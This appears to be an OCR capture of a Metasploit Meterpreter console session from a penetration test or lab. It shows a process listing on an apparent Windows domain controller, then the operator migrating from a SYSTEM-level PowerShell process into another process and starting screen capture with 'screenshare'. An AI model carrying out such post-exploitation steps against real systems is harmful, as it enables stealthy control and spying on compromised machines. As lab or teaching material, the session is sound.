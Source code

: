 ```
 1256  752   svchost.exe  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\svchost.exe
 1392  752   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1408  752   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1444  752   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1716  752   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 2176  1872  powershell.  x86   0        NT AUTHORITY\SYST  C:\Windows\SysWOW6
             exe                         EM                 4\WindowsPowerShel
                                                            l\v1.0\powershell.
                                                            exe
 2232  688   fontdrvhost  x64   1        Font Driver Host\  C:\Windows\System3
             .exe                        UMFD-1             2\fontdrvhost.exe
 2240  672   fontdrvhost  x64   0        Font Driver Host\  C:\Windows\System3
             .exe                        UMFD-0             2\fontdrvhost.exe
 2304  752   spoolsv.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\spoolsv.exe
 2332  752   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 2348  752   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 2380  752   amazon-ssm-  x64   0        NT AUTHORITY\SYST  C:\Program Files\A
             agent.exe                   EM                 mazon\SSM\amazon-s
                                                            sm-agent.exe
 2420  752   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 2452  752   LiteAgent.e  x64   0        NT AUTHORITY\SYST  C:\Program Files\A
             xe                          EM                 mazon\XenTools\Lit
                                                            eAgent.exe
 2488  752   dfsrs.exe    x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\dfsrs.exe
 2500  752   Microsoft.A  x64   0        NT AUTHORITY\SYST  C:\Windows\ADWS\Mi
             ctiveDirect                 EM                 crosoft.ActiveDire
             ory.WebServ                                    ctory.WebServices.
             ices.exe                                       exe
 2508  752   ismserv.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\ismserv.exe
 2536  752   dfssvc.exe   x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\dfssvc.exe
 2628  752   dns.exe      x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\dns.exe
 2928  2380  ssm-agent-w  x64   0        NT AUTHORITY\SYST  C:\Program Files\A
             orker.exe                   EM                 mazon\SSM\ssm-agen
                                                            t-worker.exe
 2936  2928  conhost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\conhost.exe
 3012  752   vds.exe      x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\vds.exe
 3156  688   LogonUI.exe  x64   1        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\LogonUI.exe
 3232  2176  conhost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\conhost.exe
 3624  752   msdtc.exe    x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\msdtc.exe

meterpreter > migrate 764
[*] Migrating from 2176 to 764...
[*] Migration completed successfully.
meterpreter > screenshare
[*] Preparing player...
```